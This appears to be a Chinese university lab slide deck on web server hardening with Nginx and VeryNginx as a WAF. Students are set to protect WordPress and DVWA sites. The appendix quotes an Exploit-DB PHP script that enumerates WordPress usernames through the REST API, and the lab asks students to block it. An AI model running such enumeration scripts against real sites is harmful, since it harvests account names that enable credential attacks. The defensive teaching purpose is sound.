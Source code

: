 ```yaml
---
title: "Linux系统与网络管理"
author: 黄玮
output: revealjs::revealjs_presentation
---
```


# 第五章：Web服务器（实验）

---

## 软件环境建议

* [Nginx](http://nginx.org/)
* [VeryNginx](https://github.com/alexazhou/VeryNginx)
* [Wordpress](https://wordpress.org/)
    * [WordPress 4.7](https://wordpress.org/wordpress-4.7.zip)
* [Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/)

# 实验检查点

---

## 基本要求

* 在一台主机（虚拟机）上同时配置[Nginx](http://nginx.org/)和[VeryNginx](https://github.com/alexazhou/VeryNginx)
    * VeryNginx作为本次实验的Web App的反向代理服务器和WAF
    * PHP-FPM进程的反向代理配置在nginx服务器上，VeryNginx服务器不直接配置Web站点服务
* 使用[Wordpress](https://wordpress.org/)搭建的站点对外提供访问的地址为： https://wp.sec.cuc.edu.cn 
* 使用[Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/)搭建的站点对外提供访问的地址为： http://dvwa.sec.cuc.edu.cn

---

## 安全加固要求

* 使用IP地址方式均无法访问上述任意站点，并向访客展示自定义的**友好错误提示信息页面-1**
* [Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/)只允许白名单上的访客来源IP，其他来源的IP访问均向访客展示自定义的**友好错误提示信息页面-2**
* 在不升级Wordpress版本的情况下，通过定制[VeryNginx](https://github.com/alexazhou/VeryNginx)的访问控制策略规则，**热**修复[WordPress \< 4.7.1 - Username Enumeration](https://www.exploit-db.com/exploits/41497/)
* 通过配置[VeryNginx](https://github.com/alexazhou/VeryNginx)的Filter规则实现对[Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/)的SQL注入实验在低安全等级条件下进行防护

---

## VeryNginx配置要求

* [VeryNginx](https://github.com/alexazhou/VeryNginx)的Web管理页面仅允许白名单上的访客来源IP，其他来源的IP访问均向访客展示自定义的**友好错误提示信息页面-3**
* 通过定制[VeryNginx](https://github.com/alexazhou/VeryNginx)的访问控制策略规则实现：
    * 限制DVWA站点的单IP访问速率为每秒请求数 < 50
    * 限制Wordpress站点的单IP访问速率为每秒请求数 < 20
    * 超过访问频率限制的请求直接返回自定义**错误提示信息页面-4**
    * 禁止curl访问

# 附录

---

[WordPress \< 4.7.1 - Username Enumeration](https://www.exploit-db.com/exploits/41497/)

```php
#!usr/bin/php
<?php
 
#Author: Mateus a.k.a Dctor
#fb: fb.com/hatbashbr/
#E-mail: dctoralves@protonmail.ch
#Site: https://mateuslino.tk 
header ('Content-type: text/html; charset=UTF-8');
 
 
$url= "http://localhost/";
$payload="wp-json/wp/v2/users/";
$urli = file_get_contents($url.$payload);
$json = json_decode($urli, true);
if($json){
    echo "*-----------------------------*\n";
foreach($json as $users){
    echo "[*] ID :  |" .$users['id']     ."|\n";
    echo "[*] Name: |" .$users['name']   ."|\n";
    echo "[*] User :|" .$users['slug']   ."|\n";
    echo "\n";
}echo "*-----------------------------*";} 
else{echo "[*] No user";}
```




